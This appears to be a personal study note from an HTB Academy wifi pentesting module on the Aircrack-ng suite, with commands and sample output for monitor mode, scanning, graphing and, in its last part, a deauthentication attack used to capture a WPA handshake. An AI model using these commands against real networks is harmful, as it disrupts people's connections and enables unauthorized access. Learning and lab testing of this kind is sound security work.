


# Aircrack-ng
[Aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) it a suite of tools used for [wifi](../../networking/wifi/802.11.md) security testing. It focuses on 4 areas of testing:
- **Monitoring**: Capturing packets and saving them to files so they can be processed and analyzed by other tools
- **Attacking**: Replay attacks, deauthentication, fake access point and packet injection
- **Testing**: Checking wifi card driver capabilities
- **Cracking**:  WEP and WPA PSK (WPA 1 and 2)
## Six Most Common Tools
Within the aircrack suite, there are over 20 tools, but the most commonly used in pentesting are the following:
- **Airmon-ng**: Enable and disable monitor mode on an interface
- **Airodump-ng**: Capture raw [802.11](../../networking/wifi/802.11.md) frames
- **Airgraph-ng**: Create graphs of wireless networks via the CSV files created by Airodrop
- **Aireplay-ng**: Generate wireless traffic
- **Airdecap-ng**: decrypt WEP, WPA and WPA2 PSK capture files
- **Aircrack-ng**: crack WEP and WPA/WPA2 PSKs or PMKID
## Airmon-ng
Airmon-ng can be used to enable [Monitor Mode](interface-modes.md#Monitor%20Mode) on an interface. It can also be used to kill network managers or return from monitor mode to managed mode. Running the `airmon-ng` command with no flags will show the interface's name, chipset and driver:
```bash
trshpuppy@htb[/htb]# sudo airmon-ng

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
```
### Starting Monitor Mode
To put the interface into monitor mode, you can use the following `airmon-ng` command:
```bash
trshpuppy@htb[/htb]# sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```
### Check for Interfering Processes
Usually when you put an interface into monitor mode, it will automatically check for interfering processes, but you can also check manually with the `check` flag:
```bash
trshpuppy@htb[/htb]# sudo airmon-ng check

Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

  PID Name
  718 NetworkManager
  870 dhclient
 1104 avahi-daemon
 1105 avahi-daemon
 1115 wpa_supplicant
```
The processes in the output can cause issues because they may *change channels or put the interface back into managed mode*. Fortunately `airmon-ng` has a kill command we can use if that happens:
```bash
trshpuppy@htb[/htb]# sudo airmon-ng check kill

Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```
### Starting Monitor Mode on Specific Channel
```bash
trshpuppy@htb[/htb]# sudo airmon-ng start wlan0 11

Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

  PID Name
  718 NetworkManager
  870 dhclient
 1104 avahi-daemon
 1105 avahi-daemon
 1115 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```
### Stopping Monitor Mode
```bash
trshpuppy@htb[/htb]# sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0)
```
## Airodump-ng
The Airodump tool is used for capturing 802.11 frames, specifically WEP IVs (Initialization Vectors) and WPA/WPA2 handshakes. `airodump-ng` generates multiple files containing info on all of the identified access points. To use airodump, the interface should be *in monitor mode*.
### Fields
The output from an `airodump-ng` command will include:

| **Field** | **Description**                                                                          |
| --------- | ---------------------------------------------------------------------------------------- |
| `BSSID`   | Shows the MAC address of the access points                                               |
| `PWR`     | Shows the "power" of the network. The higher the number, the better the signal strength. |
| `Beacons` | Shows the number of announcement packets sent by the network.                            |
| `#Data`   | Shows the number of captured data packets.                                               |
| `#/s`     | Shows the number of data packets captured in the past ten seconds.                       |
| `CH`      | Shows the "Channel" the network runs on.                                                 |
| `MB`      | Shows the maximum speed supported by the network.                                        |
| `ENC`     | Shows the encryption method used by the network.                                         |
| `CIPHER`  | Shows the cipher used by the network.                                                    |
| `AUTH`    | Shows the authentication used by the network.                                            |
| `ESSID`   | Shows the name of the network.                                                           |
| `STATION` | Shows the MAC address of the client connected to the network.                            |
| `RATE`    | Shows the data transfer rate between the client and the access point.                    |
| `LOST`    | Shows the number of data packets lost.                                                   |
| `Packets` | Shows the number of data packets sent by the client.                                     |
| `Notes`   | Shows additional information about the client, such as captured EAPOL or PMKID.          |
| `PROBES`  | Shows the list of networks the client is probing for.                                    |
### Get an Inventory
Gets a list of all active SSIDs the card can see (in monitor mode). Should run this about 5 minutes to get a good idea of all of the APs active on the network. The output will also tells you what authentication type each SSID is using.
```bash
airodump-ng wlan0 --band abg -w <client>_<location>_SSIDinventory
```
- `--band`: choose a specific band/ frequency
- `-w`: write the output to a file (when you use `-w` multiple files are created with the same prefix including a .csv a kismet .netxml, and kismet CSV, etc.)
### Scanning Specific Channels
With `airodump-ng` you can use the `-c` flag to scan a specific channel:
```bash
trshpuppy@htb[/htb]# sudo airodump-ng -c 11 wlan0mon

CH  11 ][ Elapsed: 1 min ][ 2024-05-18 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         

 BSSID              STATION            PWR   Rate   Lost  Frames  Notes  Probes
                                
 (not associated)   00:0F:B5:32:31:31  -29    0      42        4
 (not associated)   00:14:A4:3F:8D:13  -29    0       0        4            
 (not associated)   00:0C:41:52:D1:D1  -29    0       0        5
 (not associated)   00:0F:B5:FD:FB:C2  -29    0       0       22   
```
You can also give multiple channels by listing them in the command, for example `-c 1,6,11`.
### Scanning Specific Bands
By default *`airodump-ng` scans only on the 2.4GHz band*. So to scan 5GHz, you need to expressly tell it to do so. You can with the `--band` option which supports a, b, and g bands:
- **a**: 5GHz
- **b**: 2.4GHz
- **g**: 2.4GHz
When specifying the band, you can give a single letter or all three like so: `--band abg`
## Airgraph-ng
`airograph-ng` is a python script used to generate a GUI via the CSV files generated by `airodump-ng`. Airograph uses the CSV files to create two types of graphs:
- **Clients to AP Relationships**: Shows the relationships between APs and clients
- **Clients Probe Graph**: Shows the networks accessed by client devices
### Clients to AP Relationships (CAPR)
Shows the relationships b/w APs and the clients connected to them. Since it illustrates client connections *it will not show any APs that don't have clients*. The graph is organized by color:
- **Green**: WPA
- **Yellow**: WEP
- **Red**: Open Networks
- **Black**: Unknown Encryption
#### Creating the Graph
The following command will create the CAPR graph:
```shell-session
trshpuppy@htb[/htb]$ sudo airgraph-ng -i HTB-01.csv -g CAPR -o HTB_CAPR.png

**** WARNING Images can be large, up to 12 Feet by 12 Feet****
Creating your Graph using, HTB-01.csv and writing to, HTB_CAPR.png
Depending on your system this can take a bit. Please standby......
```

### Common Probe Graph (CPG)
Shows the relationship b/w clients and the APs they probe for.
#### Creating the Graph
```shell-session
trshpuppy@htb[/htb]$ sudo airgraph-ng -i HTB-01.csv -g CPG -o HTB_CPG.png

**** WARNING Images can be large, up to 12 Feet by 12 Feet****
Creating your Graph using, HTB-01.csv and writing to, HTB_CPG.png
Depending on your system this can take a bit. Please standby......
```

## Aireplay-ng
Aireplay-ng is for creating traffic that can be used later with aircrack-ng for cracking WEP and WPA PSK keys.  Here are the list of attacks it supports:

| **Attack** | **Attack Name**                      |
| ---------- | ------------------------------------ |
| `Attack 0` | Deauthentication                     |
| `Attack 1` | Fake authentication                  |
| `Attack 2` | Interactive packet replay            |
| `Attack 3` | ARP request replay attack            |
| `Attack 4` | KoreK chopchop attack                |
| `Attack 5` | Fragmentation attack                 |
| `Attack 6` | Cafe-latte attack                    |
| `Attack 7` | Client-oriented fragmentation attack |
| `Attack 8` | WPA Migration Mode                   |
| `Attack 9` | Injection test                       |
### Deauthentication Attack
Based on the table, the flag for a deauthentication attack is `-0` (or `--deauth`). The deauth attack is used to disconnect clients from an AP. We can do this by using `aireplay-ng` to send [Disassociation/Deauth (1010, 1100)](../../networking/wifi/802.11.md#Disassociation/Deauth%20(1010,%201100)) packets to the AP. The goal is for the AP to mistakenly believe the packets are coming from an actual client.
#### Testing for Packet Injection
Before sending the deauth frames, we need to *make sure our card can inject frames into the AP*. We can check by measuring the *ping response times* from the AP. This gives us an idea of the link quality based on the percentage of responses we receive. We can also use this to test which of our wireless cards is better suited for doing the injection attack (if we have more than one card to choose from).

First, we need to *enable monitor mode* and set the channel to 1:
```shell-session
trshpuppy@htb[/htb]$ sudo iw dev wlan0mon set channel 1
```
Once we're in monitor mode, all we have to do to test the interface for packet injection is use `aireplay-ng`'s `--test` flag:
```shell-session
trshpuppy@htb[/htb]$ sudo aireplay-ng --test wlan0mon

12:34:56  Trying broadcast probe requests...
12:34:56  Injection is working!
12:34:56  Found 27 APs
12:34:56  Trying directed probe requests...
12:34:56   00:09:5B:1C:AA:1D - channel: 1 - 'TOMMY'
12:34:56  Ping (min/avg/max): 0.457ms/1.813ms/2.406ms Power: -48.00
12:34:56  30/30: 100%
<SNIP>
```
If it's working, we should see "Injection is working!" in the output.
#### Finding Clients
```shell-session
trshpuppy@htb[/htb]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY  
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony         

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           jhony
```
The output above shows us that there are two clients connected to the `HTB` network, and there are three total networks available. 
#### Using `aireplay-ng` to Deauth a Client
Now that we've identified clients to target, we can deauth then with the following command:
```shell-session
trshpuppy@htb[/htb]$ sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon

11:12:33  Waiting for beacon frame (BSSID: 00:14:6C:7A:41:81) on channel 1
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:36  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
```
- `-0`: deauthentication attack
- `5`: number of deauths to send (setting this to `0` would cause them to be sent continuously)
- `-a 00:14:6C:7A:41:81`: the [MAC address](../../networking/OSI/2-datalink/MAC-addresses.md) of the AP
- `-c 00:0F:B5:32:31:31`: the MAC address of the client to deauth (if this option is omitted, then *all clients will be deauthed*)
### Observe for Reauths
Once the client is deauthed, we can use `airodump-ng` to watch the network for reauthentication from the client when they reconnect:
```shell-session
trshpuppy@htb[/htb]$ sudo airodump-ng wlan0mon -w capture

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony
```
In the output, we can tell that the client disconnected and reconnected by the *increased numbers in the `Lost` and `Frames` counts*. We also captured a WPA handshake which will be saved to the `.pcap` file we created by calling the `-w` flag.

> [!References]
> - [Aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)
> - [HTB Academy](https://academy.hackthebox.com/module/222/section/2922)